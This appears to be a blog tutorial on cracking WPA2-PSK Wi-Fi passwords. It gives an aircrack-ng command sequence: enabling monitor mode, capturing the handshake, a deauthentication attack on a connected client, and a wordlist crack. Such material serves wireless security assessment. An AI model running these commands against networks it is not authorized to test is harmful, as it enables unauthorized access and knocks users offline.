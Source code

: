 ```yaml
---
title: Password Cracking WPA2 PSK Networks
author: Tarus
date: 2023-06-02 16:51:00 +0300
categories: [Hacks]
tags: [wpa2, wifi, mac address, kali linux, airmon-ng]
---
```



WPA2-PSK

## Activities performed
- Evaluating strength of PSK
- Reviewing nearby networks, rogue devices
- Assessing guest networks ( how hard the password is to crack, is there a password, check if the guest network has some functionality that the main network have
- Checking network access

## Tools used
- wireless card supports dual band, monitor mode and packet injection.Plug and Play Wireless usb adapter -  https://amzn.to/3RQ6XCr
- Router
- Laptop

## Hacking Process
image.png

## Code

```python
iwconfig                        #wlan0 ifconfig but wireless, check if usb card is working
airmon-ng check kill            #kill processes that may interfere with what we are about to do
airmon-ng start wlan0           #allows wireless card to monitor incoming traffic
iwconfig                        #wlan0mon                #confirm
airodump-ng wlan0mon            #finding the wireless network we want to specifically attack

#bssid - mac address of access point
#PWR(power level) - the lower the number the closer we are to the device
#beacons and data - show traffic happening on those bssids

airodump-ng -c 6 --bssid 50:C7:BF:8A:00:73 -w capture wlan0mon     #tries to capture the 3 way handshake
#-c = channel of the device
#-w capture = name of the file where the capture will be stored

#to speed the above process, do the deauth attack
#open another terminal
aireplay-ng -0 1 -a 50:C7:BF:8A:00:73 -c 50:C7:BF:8A:00:74 wlan0mon
#-0 = deauth attack
#1 = only one time
#-c = client we want to deauth

aircrack-ng -w wordlist.txt -b 50:C7:BF:8A:00:73 capture.cap
#-b = AP mac address
```

